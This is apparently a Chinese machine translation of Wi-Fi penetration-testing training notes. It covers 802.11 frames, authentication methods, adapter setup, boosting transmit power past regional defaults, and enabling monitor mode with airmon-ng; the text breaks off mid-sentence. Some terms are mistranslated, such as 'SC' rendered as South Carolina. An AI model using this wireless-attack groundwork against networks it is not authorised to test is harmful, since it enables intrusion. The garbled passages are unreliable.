









# 1 Overview

## 1.1 Wi-Fi 身份验证类型



- `WEP (Wired Equivalent Privacy)`：最初的 WiFi 安全协议 WEP 提供了基本的加密，但由于存在容易被攻破的漏洞，现在被认为已经过时且不安全。
- `WPA (WiFi Protected Access)`：WPA 是作为 WEP 的临时改进而推出的，它通过 TKIP（临时密钥完整性协议）提供更好的加密，但它的安全性仍然低于新标准。
- `WPA2 (WiFi Protected Access II)`：WPA2 是 WPA 的重大改进，它采用 AES（高级加密标准）来实现强大的安全性。AES 多年来一直是标准，为大多数网络提供强大的保护。
- `WPA3 (WiFi Protected Access III)`：最新标准 WPA3 通过个性化数据加密和更强大的基于密码的身份验证等功能增强了安全性，使其成为目前最安全的选择。

## 1.2 IEEE 802.11 MAC 帧

所有 802.11 帧都使用 MAC 帧。此帧是客户端和接入点之间，甚至在 Ad-hoc 网络中执行的所有其他字段和操作的基础。MAC 数据帧由 9 个字段组成。

| 场地              | 描述                                                         |
| ----------------- | ------------------------------------------------------------ |
| 帧控制            | 该字段包含大量信息，例如类型、子类型、协议版本、到 DS（分发系统）、从 DS、订单等。 |
| 持续时间/ID       | 此 ID 明确了无线介质被占用的时间量。                         |
| 地址 1、2、3 和 4 | 这些字段明确了通信中涉及的 MAC 地址，但它们的含义可能因帧来源而异。这些字段通常包括接入点的 BSSID 和客户端 MAC 地址等。 |
| 南卡罗来纳州      | 序列控制字段允许附加功能来防止重复帧。                       |
| 数据              | 简单来说，这个字段负责从发送方传输到接收方的数据。           |
| CRC               | 循环冗余校验包含一个 32 位校验和，用于错误检测。             |

### 1.2.1 IEEE 802.11帧类型

IEEE 帧可以根据其用途和涉及的操作分为不同的类别。一般来说，除了其他类型外，我们还将其分为以下几类。这些代码可以帮助我们过滤 Wireshark 流量。

1. `Management (00):`这些帧用于管理和控制，并允许接入点和客户端控制活动连接。
2. `Control (01):`控制帧用于管理Wi-Fi网络中数据帧的发送和接收。我们可以将其视为一种质量控制。
3. `Data (10):`数据帧用于包含要传输的数据。

#### 1.2.1.1 管理帧子类型

对于 Wi-Fi 渗透测试，我们主要关注管理帧。毕竟，这些帧用于控制接入点和客户端之间的连接。因此，我们可以深入研究每个管理帧，以及它们各自负责的功能。

如果我们希望在 Wireshark 中过滤它们，我们将指定类型`00`和子类型，如下所示。

1. `Beacon Frames (1000)`
2. `Probe Request (0100) and Probe Response (0101)`
3. `Authentication Request and Response (1011)`
4. `Association/Reassociation Request and Responses (0000, 0001, 0010, 0011)`
5. `Disassociation/Deauthentication (1010, 1100)`

# 2 身份验证方法

------

WiFi网络中常用的身份验证系统主要有两种：`Open System Authentication`和`Shared Key Authentication`。



- `Open System Authentication`非常简单，初始访问无需任何共享密钥或凭证。这种身份验证通常用于无需密码的开放网络，允许任何设备无需事先验证即可连接到网络。
- `Shared Key Authentication`顾名思义，它涉及使用共享密钥。在该系统中，客户端和接入点都通过基于共享密钥计算质询-响应机制来验证彼此的身份。

尽管还存在许多其他方法，特别是在环境中或使用和等`Enterprise`高级协议时，但这两种方法最为普遍。`WPA3``Enhanced Open`

------

## 2.1 开放系统认证

顾名思义，开放系统身份验证不需要立即提供任何共享密钥或凭证。这种身份验证类型通常用于不需要密码的开放网络。对于开放系统身份验证，它通常遵循以下顺序：

1. 客户端（站）向接入点发送身份验证请求以开始身份验证过程。
2. 然后，接入点向客户端发回身份验证响应，指示身份验证是否被接受。
3. 然后，客户端向接入点发送关联请求。
4. 然后，接入点会通过关联响应来指示客户端是否可以保持连接。


如上图所示，开放系统身份验证无需任何凭证或身份验证。设备无需输入密码即可直接连接到网络，这对于注重访问便利性的公共网络或访客网络而言非常便捷。

虽然开放系统身份验证对于公共网络或访客网络来说很方便，但共享密钥身份验证通过确保只有具有正确密钥的设备才能访问网络提供了额外的安全层。

------

## 2.2 共享密钥认证

另一方面，共享密钥身份验证确实需要共享密钥，顾名思义。在这种身份验证系统中，客户端和接入点通过计算质询来证明其身份。此方法通常与有线等效保密 ( `WEP`) 和 Wi-Fi 保护访问 ( `WPA`) 相关。它通过使用预共享密钥提供基本的安全级别。



------

### 2.2.1 使用 WEP 进行身份验证

1. `Authentication request:`最初，客户端向接入点发送身份验证请求。
2. `Challenge:`然后，接入点会以自定义身份验证响应进行响应，其中包括客户端的质询文本。
3. `Challenge Response:`然后，客户端使用加密的质询进行响应，该质询使用 WEP 密钥加密。
4. `Verification:`然后，AP 解密该质询并发回成功或失败的指示。


------

### 2.2.2 使用 WPA 进行身份验证

另一方面，WPA 采用一种包含四次握手的身份验证形式。通常，这会用更繁琐的验证取代关联过程。而对于 WPA3，身份验证部分对于成对密钥的生成来说甚至更加复杂。从高层次来看，其执行方式如下。

1. `Authentication Request:`客户端向AP发送认证请求，启动认证过程。
2. `Authentication Response:`AP 以身份验证响应进行响应，表明它已准备好继续进行身份验证。
3. `Pairwise Key Generation:`然后，客户端和 AP 根据 PSK（密码）计算 PMK。
4. `Four-Way Handshake:`然后，客户端和接入点将经历四次握手的每个步骤，其中包括随机数交换、派生以及其他操作，以验证客户端和 AP 确实知道 PSK。


共享密钥身份验证类型也涉及[WPA3](https://documentation.meraki.com/MR/Wi-Fi_Basics_and_Best_Practices/WPA3_Encryption_and_Configuration_Guide)，这是最新、最安全的 WiFi 安全标准。WPA3 在其前代产品的基础上进行了重大改进，包括更强大的加密和增强的暴力攻击防护。其主要功能之一是`Simultaneous Authentication of Equals (SAE)`，它取代了`Pre-Shared Key (PSK)`WPA2 中使用的方法，为密码和单个数据会话提供了更好的保护。

尽管 WPA3 拥有诸多优势，但由于硬件限制，其普及速度较慢。许多现有设备不支持 WPA3，需要固件更新或更换才能兼容。这给 WPA3 的广泛实施带来了障碍，尤其是在拥有大量旧设备的环境中。因此，尽管 WPA3 提供了卓越的安全性，但其应用尚未普及，许多网络仍在依赖 WPA2 等较旧的标准，直到必要的硬件升级变得更加便捷且经济实惠。

------

# 3 Wi-Fi接口

------

无线接口是 Wi-Fi 渗透测试的基石。毕竟，我们的设备通过这些接口发送和接收数据。如果没有这些接口，我们就无法通信。选择合适的接口时，我们必须考虑许多不同的方面。如果接口性能太弱，我们可能无法在渗透测试过程中捕获数据。在本节中，我们将探讨购买 Wi-Fi 渗透测试接口时需要考虑的所有事项。

------

## 3.1 如何选择合适的界面

我们首先要考虑的是功能。如果我们的接口支持 2.4G 而不是 5G，那么在尝试扫描更高频段的网络时可能会遇到问题。这当然是显而易见的，但我们应该在接口中寻找以下信息：

1. `IEEE 802.11ac or IEEE 802.11ax support`
2. `Supports at least monitor mode and packet injection`

在 Wi-Fi 渗透测试方面，并非所有接口都表现相同。我们可能会发现，单 2.4G 卡的性能比“功能更强大”的双频卡更好。毕竟，这取决于驱动程序的支持。并非所有操作系统都完全支持每张卡，所以我们应该提前研究一下所选的芯片组。

Wi-Fi 卡的芯片组及其驱动程序是渗透测试的关键因素，因为选择同时支持监控模式和数据包注入的芯片组至关重要。Airgeddon根据性能提供了全面的 Wi-Fi 适配器列表。需要注意的是，对于外置 Wi-Fi 适配器，必须手动安装驱动程序[，](https://github.com/v1s1t0r1sh3r3/airgeddon/wiki/Cards and Chipsets)而笔记本电脑的内置适配器通常无需手动安装。驱动程序的安装过程因适配器而异，每个型号所需的步骤也不同。

------

## 3.2 界面强度

很多 Wi-Fi 渗透测试都取决于我们的物理位置。因此，如果卡的性能太弱，我们可能会发现我们的努力不够。我们应该始终确保我们的卡足够强大，能够在更大、更远的距离下工作。因此，我们可能会尝试使用覆盖范围更广的卡。我们可以用 iwconfig 实用程序来检查这一点。

```shell
capybaralalale@htb[/htb]$ iwconfig

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
```

默认情况下，此国家/地区设置为操作系统中指定的国家/地区。我们可以使用 Linux 中的 iw reg get 命令来检查这一点。

```shell
capybaralalale@htb[/htb]$ iw reg get

global
country 00: DFS-UNSET
        (2402 - 2472 @ 40), (6, 20), (N/A)
        (2457 - 2482 @ 20), (6, 20), (N/A), AUTO-BW, PASSIVE-SCAN
        (2474 - 2494 @ 20), (6, 20), (N/A), NO-OFDM, PASSIVE-SCAN
        (5170 - 5250 @ 80), (6, 20), (N/A), AUTO-BW, PASSIVE-SCAN
        (5250 - 5330 @ 80), (6, 20), (0 ms), DFS, AUTO-BW, PASSIVE-SCAN
        (5490 - 5730 @ 160), (6, 20), (0 ms), DFS, PASSIVE-SCAN
        (5735 - 5835 @ 80), (6, 20), (N/A), PASSIVE-SCAN
        (57240 - 63720 @ 2160), (N/A, 0), (N/A)
```

通过这个，我们可以看到我们地区可以进行的所有不同的 txpower 设置。大多数情况下，这可能是 DFS-UNSET，这对我们来说没什么用，因为它会将我们的卡限制在`20 dBm`。当然，我们可以将其更改为我们自己的地区，但这样做时应遵守相关的规则和法律，因为在不同的地区，将卡超出最大设置限制是违法的，而且这对我们的界面来说也并不总是特别健康。

------

## 3.3 更改界面的区域设置

假设我们居住在美国，我们可能需要相应地更改界面的区域。我们可以使用 iw reg set 命令，只需将 US 更改为我们地区的两个字母代码即可。

```shell
capybaralalale@htb[/htb]$ sudo iw reg set US
```

然后，我们可以使用 iw reg get 命令再次检查此设置。

```shell
capybaralalale@htb[/htb]$ iw reg get

global
country US: DFS-FCC
        (902 - 904 @ 2), (N/A, 30), (N/A)
        (904 - 920 @ 16), (N/A, 30), (N/A)
        (920 - 928 @ 8), (N/A, 30), (N/A)
        (2400 - 2472 @ 40), (N/A, 30), (N/A)
        (5150 - 5250 @ 80), (N/A, 23), (N/A), AUTO-BW
        (5250 - 5350 @ 80), (N/A, 24), (0 ms), DFS, AUTO-BW
        (5470 - 5730 @ 160), (N/A, 24), (0 ms), DFS
        (5730 - 5850 @ 80), (N/A, 30), (N/A), AUTO-BW
        (5850 - 5895 @ 40), (N/A, 27), (N/A), NO-OUTDOOR, AUTO-BW, PASSIVE-SCAN
        (5925 - 7125 @ 320), (N/A, 12), (N/A), NO-OUTDOOR, PASSIVE-SCAN
        (57240 - 71000 @ 2160), (N/A, 40), (N/A)
```

之后，我们可以使用该实用程序检查接口的 txpower `iwconfig`。

```shell
capybaralalale@htb[/htb]$ iwconfig

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
```

很多情况下，我们的接口会自动将功率设置为本区域内的最大值。但是，有时我们可能需要自己进行此操作。首先，我们必须关闭接口。

```shell
capybaralalale@htb[/htb]$ sudo ifconfig wlan0 down
```

然后，我们可以使用该实用程序为我们的接口设置所需的 txpower `iwconfig`。

```shell
capybaralalale@htb[/htb]$ sudo iwconfig wlan0 txpower 30
```

之后，我们需要恢复我们的界面。

```shell
capybaralalale@htb[/htb]$ sudo ifconfig wlan0 up
```

接下来，我们可以使用该实用程序再次检查设置`iwconfig`。

```shell
capybaralalale@htb[/htb]$ iwconfig

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=30 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
```

无线接口的默认发射功率通常设置为 20 dBm，但可以通过某些方法将其提升至 30 dBm。然而，应谨慎操作，因为在某些国家/地区，这种调整可能是非法的，用户应自行承担风险。此外，某些无线型号可能不支持这些设置，或者无线芯片在技术上能够以更高的功率发射，但设备制造商可能没有为设备配备必要的散热器来安全处理增加的输出。

可以使用前面提到的命令修改无线接口的发射功率。然而，在某些情况下，此更改可能不会生效，这可能表明内核已进行修补以防止此类修改。

------

## 3.4 检查接口的驱动程序功能

如上所述，对于我们的接口来说，最重要的一点是它能够在 Wi-Fi 渗透测试期间执行不同的操作。如果我们的接口不支持某些功能，在大多数情况下，我们将无法执行该操作，除非我们获取另一个接口。幸运的是，我们可以通过命令行检查这些功能。

我们可以用来查找这些信息的命令是 iw list 命令。

```shell
capybaralalale@htb[/htb]$ iw list

Wiphy phy5
	wiphy index: 5
	max # scan SSIDs: 4
	max scan IEs length: 2186 bytes
	max # sched scan SSIDs: 0
	max # match sets: 0
	max # scan plans: 1
	max scan plan interval: -1
	max scan plan iterations: 0
	Retry short limit: 7
	Retry long limit: 4
	Coverage class: 0 (up to 0m)
	Device supports RSN-IBSS.
	Device supports AP-side u-APSD.
	Device supports T-DLS.
	Supported Ciphers:
			* WEP40 (00-0f-ac:1)
			* WEP104 (00-0f-ac:5)
			<SNIP>
			* GMAC-256 (00-0f-ac:12)
	Available Antennas: TX 0 RX 0
	Supported interface modes:
			 * IBSS
			 * managed
			 * AP
			 * AP/VLAN
			 * monitor
			 * mesh point
			 * P2P-client
			 * P2P-GO
			 * P2P-device
	Band 1:
		<SNIP>
		Frequencies:
				* 2412 MHz [1] (20.0 dBm)
				* 2417 MHz [2] (20.0 dBm)
				<SNIP>
				* 2472 MHz [13] (disabled)
				* 2484 MHz [14] (disabled)
	Band 2:
		<SNIP>
		Frequencies:
				* 5180 MHz [36] (20.0 dBm)
				<SNIP>
				* 5260 MHz [52] (20.0 dBm) (radar detection)
				<SNIP>
				* 5700 MHz [140] (20.0 dBm) (radar detection)
				<SNIP>
				* 5825 MHz [165] (20.0 dBm)
				* 5845 MHz [169] (disabled)
	<SNIP>
		Device supports TX status socket option.
		Device supports HT-IBSS.
		Device supports SAE with AUTHENTICATE command
		Device supports low priority scan.
	<SNIP>
```

当然，这个输出可能很长，但这里的所有信息都与我们的测试工作相关。从上面的示例中，我们知道此接口支持以下内容。

1. `Almost all pertinent regular ciphers`
2. `Both 2.4Ghz and 5Ghz bands`
3. `Mesh networks and IBSS capabilities`
4. `P2P peering`
5. `SAE aka WPA3 authentication`

因此，检查网卡的功能对我们来说非常重要。假设我们正在测试 WPA3 网络，却发现网卡的驱动程序不支持 WPA3，我们可能会感到困惑。

------

## 3.5 扫描可用的WiFi网络

为了高效地扫描可用的 WiFi 网络，我们可以将`iwlist`命令与特定的网络接口名称结合使用。鉴于此命令的输出可能非常庞大，过滤结果以仅显示最相关的信息会非常有帮助。这可以通过 grep 管道输出来实现，使其仅包含包含`Cell`、`Quality`、`ESSID`或 的行`IEEE`。

 Wi-Fi接口

```shell
capybaralalale@htb[/htb]$ iwlist wlan0 scan |  grep 'Cell\|Quality\|ESSID\|IEEE'

          Cell 01 - Address: f0:28:c8:d9:9c:6e
                    Quality=61/70  Signal level=-49 dBm  
                    ESSID:"HTB-Wireless"
                    IE: IEEE 802.11i/WPA2 Version 1
          Cell 02 - Address: 3a:c4:6e:40:09:76
                    Quality=70/70  Signal level=-30 dBm  
                    ESSID:"CyberCorp"
                    IE: IEEE 802.11i/WPA2 Version 1
          Cell 03 - Address: 48:32:c7:a0:aa:6d
                    Quality=70/70  Signal level=-30 dBm  
                    ESSID:"HackTheBox"
                    IE: IEEE 802.11i/WPA2 Version 1
```

从命令的精细输出中`iwlist`，我们可以识别出有三个可用的 WiFi 网络。这些过滤信息侧重于网络单元、信号质量、ESSID 和 IEEE 规范等关键细节，从而可以直接分析可用的网络。

------

## 3.6 更改接口的频道和频率

我们可以使用以下命令查看无线接口的所有可用信道：

```shell
capybaralalale@htb[/htb]$ iwlist wlan0 channel

wlan0     32 channels in total; available frequencies :
          Channel 01 : 2.412 GHz
          Channel 02 : 2.417 GHz
          Channel 03 : 2.422 GHz
          Channel 04 : 2.427 GHz
          <SNIP>
          Channel 140 : 5.7 GHz
          Channel 149 : 5.745 GHz
          Channel 153 : 5.765 GHz
```

首先，我们需要禁用无线接口，以确保该接口未被使用，并且可以安全地重新配置。然后，我们可以`channel`使用`iwconfig`命令设置所需的设置，最后重新启用无线接口。

```shell
capybaralalale@htb[/htb]$ sudo ifconfig wlan0 down
capybaralalale@htb[/htb]$ sudo iwconfig wlan0 channel 64
capybaralalale@htb[/htb]$ sudo ifconfig wlan0 up
capybaralalale@htb[/htb]$ iwlist wlan0 channel

wlan0     32 channels in total; available frequencies :
          Channel 01 : 2.412 GHz
          Channel 02 : 2.417 GHz
          Channel 03 : 2.422 GHz
          Channel 04 : 2.427 GHz
          <SNIP>
          Channel 140 : 5.7 GHz
          Channel 149 : 5.745 GHz
          Channel 153 : 5.765 GHz
          Current Frequency:5.32 GHz (Channel 64)
```

如上输出所示，`Channel 64`的工作频率为`5.32 GHz`。通过遵循这些步骤，我们可以有效地更改无线接口的信道，以优化性能并减少干扰。

如果我们更愿意直接改变频率而不是调整频道，我们也可以选择这样做。

```shell
capybaralalale@htb[/htb]$ iwlist wlan0 frequency | grep Current

          Current Frequency:5.32 GHz (Channel 64)
```

要更改频率，我们首先需要禁用无线接口，以确保该接口未被使用，并且可以安全地重新配置。然后，我们可以使用 iwconfig 命令设置所需的频率，最后重新启用无线接口。 

```shell
capybaralalale@htb[/htb]$ sudo ifconfig wlan0 down
capybaralalale@htb[/htb]$ sudo iwconfig wlan0 freq "5.52G"
capybaralalale@htb[/htb]$ sudo ifconfig wlan0 up
```

现在我们可以验证当前频率，这次我们可以看到频率已成功更改为`5.52 GHz`。此更改自动将频道调整到适当的`channel 104`。

```shell
capybaralalale@htb[/htb]$ iwlist wlan0 frequency | grep Current

          Current Frequency:5.52 GHz (Channel 104)
```

# 4 扫描可用网络:

```shell
iwlist wlan0 scan |  grep 'Cell\|Quality\|ESSID\|IEEE'
```

## 4.1 Aircrack-ng

| **工具**      | **描述**                                                     |
| ------------- | ------------------------------------------------------------ |
| `Airmon-ng`   | Airmon-ng 可以在无线接口上启用和禁用监控模式。               |
| `Airodump-ng` | Airodump-ng 可以捕获原始 802.11 帧。                         |
| `Airgraph-ng` | Airgraph-ng 可用于使用 Airodump-ng 生成的 CSV 文件创建无线网络图表。 |
| `Aireplay-ng` | Aireplay-ng 可以生成无线流量。                               |
| `Airdecap-ng` | Airdecap-ng 可以解密 WEP、WPA PSK 或 WPA2 PSK 捕获文件。     |
| `Aircrack-ng` | Aircrack-ng 可以破解使用预共享密钥或 PMKID 的 WEP 和 WPA/WPA2 网络。 |

## 4.2 Airmon-ng

### 4.2.1 启动监控模式

Airmon-ng 可用于在无线接口上启用监控模式。它还可用于终止网络管理器，或从监控模式返回到托管模式。输入`airmon-ng`不带参数的命令将显示无线接口名称、驱动程序和芯片组。

```shell
capybaralalale@htb[/htb]$ sudo airmon-ng

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
```

我们可以使用命令将wlan0接口设置为监控模式`airmon-ng start wlan0`。

```shell
capybaralalale@htb[/htb]$ sudo airmon-ng start wlan0

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    559 NetworkManager
    798 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

我们可以使用 iwconfig 实用程序测试我们的接口是否处于监控模式。

```shell
capybaralalale@htb[/htb]$ iwconfig

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=30 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
```

从上面的输出可以看出，接口已成功设置为监控模式。接口的新名称现在是 wlan0mon 而不是 wlan0，这表明它正在监控模式下运行。

------

### 4.2.2 检查干扰过程

将网卡置于监控模式时，它将自动检查干扰进程。您也可以通过运行以下命令手动执行此操作：

```shell
capybaralalale@htb[/htb]$ sudo airmon-ng check

Found 5 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
